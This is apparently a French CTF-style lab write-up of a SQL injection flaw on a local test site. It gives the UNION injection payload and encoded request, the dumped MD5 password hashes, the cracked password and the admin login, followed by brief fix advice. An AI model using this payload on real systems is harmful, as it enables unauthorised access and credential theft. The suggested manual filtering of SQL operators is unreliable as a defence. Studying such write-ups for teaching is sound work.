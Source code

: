 # Explication

Nom de la faille:  Member_Brute_Force

Aller sur l'URL:  `http://10.11.200.169/index.php?page=searchimg`

Il y a un input afin de chercher une image.

Commme expliqué précedemment, on a réussi à obtenir le schéma complet de la base SQL.

Pour cette faille là, on va se concentrer sur la table Member_Brute_Force.db_default qui a pour colonnes:
    `username, password`

En faisaint l'injection SQL:
```
	 1 OR 1=1 UNION select username, password FROM Member_Brute_Force.db_default 
```

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+username%2C+password+FROM+Member_Brute_Force.db_default+&Submit=Submit#

On trouve 2 `username` avec le même `password`.

```
    root : 3bf1114a986ba87ed28fc1b5884fc2f8
    admin : 3bf1114a986ba87ed28fc1b5884fc2f8
```

On decrypte le hash 3bf1114a986ba87ed28fc1b5884fc2f8 avec md5, on obtient alors `shadow`.

http://10.11.200.169/?page=signin&username=root&password=shadow&Login=Login#

On peut alors se logguer avec l'identifiant `admin` et `root` avec ce mot de passe. On otient alors le flag.

# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.

# Autre manière de trouver la faille

Comme le nom l'indique, on peut brute force le nom et le mot de passe très facilement étant donnée la faiblesse de ce dernier.